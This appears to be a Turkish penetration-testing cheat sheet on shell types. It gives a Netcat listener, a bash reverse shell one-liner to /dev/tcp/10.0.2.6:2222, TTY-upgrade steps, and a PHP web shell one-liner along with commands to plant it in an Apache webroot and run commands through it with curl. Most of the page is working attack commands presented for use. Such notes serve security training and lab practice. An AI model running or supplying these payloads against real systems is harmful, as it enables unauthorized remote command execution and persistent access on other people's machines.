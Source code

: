 ```yaml
---
icon: material/circle-small
---
```


# Types of Shells

## Reverse Shell

Reverse shell, kontrol elde etmenin en hızlı ve en kolay yöntemi olduğundan en yaygın shell türüdür. Saldırı makinemizdeki dinleyiciye geri bağlantı başlatır.

### Netcat Listener

Reverse shell almak için ilk adım seçilen bir port için Netcat dinleyicisi başlatmaktır:

```bash
nc -l -v -n -p 2222
```

| Flag | Description |
|:---|:---|
| `-l` | Bir bağlantının bağlanması beklenir. |
| `-v` | Ayrıntılı mod kullanılır. |
| `-n` | Bağlantıyı hızlandırmak için DNS çözümlemesi devre dışı bırakılır. |
| `-p` | Port numarası belirtilir. |

### Reverse Shell Command

[Payloads All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings) reposunda bulunan [Reverse Shell Cheat Sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) sayfasında reverse shell için kullanılabilecek çeşitli komutların bir listesi bulunur.

Aşağıda örnek bir reverse shell komutu verilmiştir:

```bash
bash -c 'bash -i &> /dev/tcp/10.0.2.6/2222 0<&1'
```

Bu komut hedef makinede çalıştırıldığında Netcat tarafında bağlantı alınabilir.

## Bind Shell

Hedef bilgisayardaki belirli bir porta bağlanır ve saldırı makinesinden bağlantı bekler. [Payloads All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings) sayfasında bind shell için kullanılabilecek çeşitli komutların bir listesi bulunur.

## Upgrading TTY

Uzak bir shell bağlantısında yalnızca komut yazabilir veya ++backspace++ işlevini kullanabiliriz. Ancak komutlarımızı düzenlemek için metin imlecini sola veya sağa hareket ettiremeyiz ya da komut geçmişine erişmek için yukarı aşağı hareket edemeyiz. Bu işlevleri kullanabilmek amacıyla TTY yükseltmesi gerçekleştirilir. Bunun için mevcut makinedeki TTY, uzak makinedeki TTY ile eşleştirilmelidir.

TTY yükseltmek için kullanılan yöntemlerden biri python/stty yöntemidir. Bu yöntemde Netcat ile dinleme gerçekleştirdiğimiz shell Full TTY yapılır:

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

Bu komutun ardından shell arka plana taşınır. Bu şekilde yerel terminale geri dönülür. Sonrasında aşağıdaki komut ile echo özelliği devre dışı bırakılır:

```bash
stty raw -echo
```

Bu işlemin ardından Netcat shell tekrar ön plana taşınır:

```bash
fg
```

Son olarak yeni bir sekmede başka bir terminal açılır. Aşağıdaki komutlar ile terminale ait profil ve boyut bilgileri görüntülenir:

```bash
echo $TERM && stty size
```

Burada edinilen bilgiler Netcat shell içerisine kopyalanır:

```bash
export TERM=xterm-256color && stty rows 30 columns 120
```

## Web Shell

Web shell, HTTP GET veya HTTP POST istek parametreleri aracılığıyla verilen komutları kabul eder, bu komutları yürütür ve sonuçları web sayfasına yazdırır.

### Writing a Web Shell

Bir web shell script genellikle kısa olan, tek satırlık (one-liner) bir komut dosyasıdır. Aşağıda PHP için örnek bir web shell script verilmiştir:

```php
<?php system($_REQUEST["cmd"]); ?>
```

### Uploading a Web Shell

Web shell dosyasını web tarayıcısı aracılığıyla yürütmek için, script, uzak bilgisayarın web köküne (webroot) yerleştirilmelidir.

Aşağıda bazı web sunucuları için varsayılan web kökleri verilmiştir:

| Web Server | Default Webroot |
|:---|:---|
| Apache | /var/www/html/ |
| Nginx | /usr/local/nginx/html/ |
| IIS | c:\inetpub\wwwroot\ |
| XAMPP | C:\xampp\htdocs\ |

Örneğin Apache çalıştıran bir Linux bilgisayarına saldırıyorsak aşağıdaki komutu kullanabiliriz:

```bash
echo '<?php system($_REQUEST["cmd"]); ?>' > /var/www/html/shell.php
```

### Accessing a Web Shell

Parametre olarak `id` değeri verilerek `id` komutunun çalıştırılması sağlanabilir:

```bash
curl http://SERVER_IP:PORT/shell.php?cmd=id
```

```text title="Output"
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Bir web shell port üzerinde yeni bir bağlantı açmaz. Bu sayede bazı güvenlik duvarı kısıtlamaları atlanabilir. Ayrıca hedef bilgisayar yeniden başlatılsa bile, web shell, yerinde kalmaya devam eder.
